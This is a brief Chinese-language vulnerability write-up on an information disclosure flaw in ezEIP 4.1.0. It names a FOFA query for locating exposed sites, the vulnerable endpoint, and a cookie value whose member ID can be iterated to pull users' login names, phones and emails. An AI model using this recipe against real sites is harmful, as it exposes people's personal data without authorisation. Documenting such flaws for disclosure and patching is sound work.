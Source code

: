 # ezEIP 4.1.0 信息泄露漏洞

## 漏洞描述

ezEIP 4.1.0 存在信息泄露漏洞，通过遍历Cookie中的参数值获取敏感信息

## 漏洞影响

> [!NOTE]
>
> ezEIP 4.1.0 

## FOFA

> [!NOTE]
>
> "ezEIP"

## 漏洞复现

漏洞Url为

```
/label/member/getinfo.aspx
```

访问时添加Cookie（通过遍历获取用户的登录名电话邮箱等信息）

```
WHIR_USERINFOR=whir_mem_member_pid=1;
```

![ez-1](http://wikioss.peiqi.tech/vuln/ez-1.png)